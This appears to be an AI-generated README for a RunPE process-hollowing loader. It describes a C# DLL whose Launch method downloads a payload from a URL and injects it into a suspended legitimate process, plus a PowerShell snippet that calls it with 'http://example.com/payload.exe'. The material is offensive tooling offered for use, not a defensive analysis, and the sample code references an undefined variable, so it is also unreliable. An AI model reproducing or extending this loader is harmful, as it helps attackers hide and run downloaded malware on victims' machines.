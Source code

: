 ## Introduction
Process hollowing is yet another tool in the kit of those who seek to hide the presence of a process. The idea is rather straight forward: a bootstrap application creates a seemingly innocent process in a suspended state. The legitimate image is then unmapped and replaced with the image that is to be hidden. If the preferred image base of the new image does not match that of the old image, the new image must be rebased. Once the new image is loaded in memory the EAX register of the suspended thread is set to the entry point. The process is then resumed and the entry point of the new image is executed.

## Overview
The Loader.cs is a C# implementation of a RunPE process hollowing technique. This technique is used to inject and execute a PE (Portable Executable) payload into a legitimate process's memory space, effectively hiding its presence.
The script.ps1 likely acts as the initiating script, which either:
Downloads the compiled Loader binary.
Executes the Loader with the required parameters (e.g., URLs or paths to payloads).

## Technical Details of Loader.cs as a DLL

Compilation to DLL:

The Loader.cs code will be compiled into a .NET DLL (Dynamic Link Library).
This allows external applications, including PowerShell, to interact with its public methods using reflection or direct invocation via the .NET framework.

Exposed Methods:

Loader.cs must expose its methods, such as Launch or RunPe, as public static so they can be called from PowerShell.
For example:

```csharp

public static void Launch(string appurl, string path)
        {
            if (!File.Exists(path))
            {
                return;
            }

            using (WebClient webClient = new WebClient())
            {
                byte[] Bytes = webClient.DownloadData(appurl);
                RunPe(Bytes, diretorio, "");
            }

        }
```
    

## Interaction via PowerShell:

The PowerShell script will use the [Reflection.Assembly]::LoadFrom() or Add-Type methods to load the DLL and call its methods.

PowerShell Script (script.ps1) Integration

Here’s an example of how the PowerShell script might load and interact with the DLL:

Invoking the Launch Method:

Use the fully qualified namespace and class name (Loader.c_Loader) to call methods:

    $appUrl = "http://example.com/payload.exe"
    $path = "C:\target\process.exe"

    # Call the static method
    [Loader.c_Loader]::Launch($appUrl, $path)

Passing Parameters:

Ensure parameters like appurl (URL to the payload) and path (target process) are correctly passed when invoking methods.


## Advantages of Using a DLL

    Modular Design: The PowerShell script focuses on orchestration, while the DLL encapsulates the complex logic.
    Reusability: The DLL can be reused across multiple scripts or applications.
    Dynamic Loading: PowerShell can load and use the DLL at runtime, making it flexible and adaptable to different scenarios.


## Example Flow

    1 Setup:
        Place the Loader.dll and the PowerShell script in the same directory or specify the path to the DLL in the script.
        
    2 Execute the Script:
        The PowerShell script loads the DLL, invokes the necessary methods, and triggers the execution of the payload.
        
    3 Payload Execution:
        The DLL performs process hollowing or other techniques as defined in Loader.cs.

Let me know if you'd like a sample PowerShell script template for this integration!

